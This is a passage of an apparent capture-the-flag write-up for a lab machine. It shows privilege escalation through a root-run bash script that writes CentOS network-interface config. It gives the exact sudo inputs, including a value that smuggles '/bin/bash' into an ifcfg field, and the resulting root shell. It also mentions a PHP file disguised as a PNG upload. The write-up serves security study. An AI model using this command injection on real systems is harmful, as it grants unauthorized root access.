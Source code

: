 `-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh`
We can read and exec, but not write
```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

The script creates a configuration for the guly0 network interface and uses “ifup guly0” to
activate it at the end. The user input is validated, and only alphanumeric characters, slashes or a dash are allowed. Network configuration scripts on CentOS are vulnerable to command injection through the attribute values as described here. This is because the scripts are sourced by the underlying service, leading to execution of anything after a space.

The response to that disclosure was that anyone who can write that file is basically root anyway, so it doesn’t matter.

The regex check at the start of the script prevents me from doing anything too complicated, but it doesn’t prevent me from getting a simple shell:

```
sudo /usr/local/sbin/changename.sh
interface NAME:
0xdf
interface PROXY_METHOD:
a /bin/bash
interface BROWSER_ONLY:
b
interface BOOTPROTO:
c

[root@networked network-scripts]# id 
uid=0(root) gid=0(root) groups=0(root)
```

Beyond Root - PHP Misconfiguration
In gaining an initial foothold, I uploaded a file `10_10_14_5.php.png`, and the webserver treated it as PHP code and ran it. I shared this link earlier. I wanted to look at the Apache configuration to see how it compared to that in the article.
